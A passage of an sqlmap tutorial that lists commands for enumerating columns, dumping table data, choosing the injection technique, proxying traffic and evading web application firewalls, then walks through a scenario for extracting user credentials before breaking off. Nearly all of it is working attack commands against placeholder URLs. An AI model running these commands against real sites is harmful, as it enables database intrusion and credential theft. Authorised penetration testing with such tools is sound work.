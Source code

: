 4) Column Enumeration:

```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D database_name -T table_name --columns
```
Replace table_name with the actual table name to list all columns within the specified table.

5) Data Extraction:

```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D database_name -T table_name -C column_name --dump
```
Replace column_name with the actual column name to extract data from the specified column.

6) Identifying SQL Injection Type:

```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" --technique=U
```
The --technique option allows you to specify the type of SQL injection to test for, such as Union-based (U), Boolean-based (B), Error-based (E), and Time-based (T).

7) Using Proxy:

```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" --proxy="http://127.0.0.1:8080"
```
This command routes SQLmap traffic through a specified proxy, useful for intercepting requests and responses.

8) Bypassing WAF:

```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" --random-agent
```
The --random-agent option uses a random HTTP User-Agent header to evade Web Application Firewalls (WAFs).

### Real-World Examples
1) Scenario 1: Testing a Single URL for Vulnerabilities

Suppose you have a URL http://example.com/product.php?id=5 suspected of being vulnerable to SQL injection. The following command tests for vulnerabilities:

```bash
sqlmap -u "http://example.com/product.php?id=5"
```

2) Scenario 2: Extracting User Credentials from a Database

After identifying a vulnerable URL, you might want to extract sensitive data such as user credentials. 

- First, list the databases:

```bash
sqlmap -u "http://example.com/login.php?user=admin" --dbs
```
- Then, choose a database and list its tables:
